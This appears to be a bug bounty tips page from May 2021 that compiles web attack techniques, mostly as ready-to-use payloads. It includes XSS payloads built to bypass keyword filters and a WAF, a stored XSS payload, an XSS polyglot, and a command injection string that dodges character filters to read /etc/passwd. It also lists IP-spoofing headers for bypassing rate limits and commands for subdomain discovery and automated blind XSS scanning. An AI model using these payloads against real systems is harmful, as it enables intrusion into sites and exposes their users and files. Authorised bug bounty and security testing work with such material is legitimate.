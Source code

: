 # Bug Bounty Tips - May 2021

# 📅 03-May-2021
## Black small squareBlacklisted keywords
1. Tags like img, iframe, body
2. Common attributes like onerror, onload
3. Methods like alert, prompt, confirm

Black small squareAllowed:
1. Characters like > , <

Final payload:
```js
<svg><animate onend=a\u006cert(1) dur=1s>
```
***Source: https://twitter.com/nehatarick/status/1387716353663119366?s=20***

## Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:
```js
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```

## Stored XSS Payload
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

# 📅 10-May-2021
## XXE Zero to Hero
- https://infosecwriteups.com/xxe-from-zero-to-hero-b38118750556

# 📅 17-May-2021
## OS Command Injection
If you've found an OS command Injection with WAF enabled, special characters like 
```text
(/"'&|()-;:.,`)
```
and whitespaces blocked. Try this method to bypass.

**E.g.: reading `/etc/passwd file`**
```sh
cat$IFS$9${PWD%%[a-z]*}e*c${PWD%%[a-z]*}p?ss??
```
![img](https://pbs.twimg.com/media/E1cZ_WXWUAQ0jSL?format=jpg&name=small)
***Credit: Aysar Harb***

## Some Rate Limit Bypass Headers #BugBounty 
```text
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1   
X-Forwarded-Host : 127.0.0.1 
X-Client-IP : 127.0.0.1 
X-Host : 127.0.0.1 
Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-IP: 127.0.0.1
X-True-IP: 127.0.0.1
```

## Hunters on github

1. go get -u http://github.com/gwen001/github-subdomains

2. github-subdomains -t $token -d $domain -k

Replace $token with github token, $domain with public/private bounty program and watch the results closely.
**Source: https://twitter.com/naglinagli/status/1393967961405263873?s=20**

## SSRF on PDF Renderer
- https://pwn.vg/articles/2021-05/ssrf-in-pdf-renderer-using-svg

## XSS Automation
1:- Use @fasthm00 https://github.com/Leoid/MatchandReplace
2:- Import to burpsuite match and replace.
3:- Run gospider. gospider -s url -a -w --sitemap -r -c 100 -d 8 -p http://127.0.0.1:8080
4:- The Blind xss payload will added automatically by burp and gospider.

# 📅 27-May-2021
## Brute #XSS Polyglot

```js
JavaScript:/*'/*\'/*"/*\"/*`/*\`/*<!-->
</Title/</Style/</Script/</textArea/<iFrame/</noScript>
<K/contentEditable/autoFocus/*/
[/**/OnFocus=(alert)(1)%20]//-->\
```

It works in 20+ XSS cases!
**Source: https://twitter.com/brutelogic/status/1397553678958092293?s=20**

## Test all hosts via [@pdiscoveryio](https://twitter.com/pdiscoveryio) httpx:-
````sh
httpx -l hosts.txt -threads 100 -x POST -paths /admin/login/?next=/admin/ -title -tech-detect -status-code -follow-redirects
```
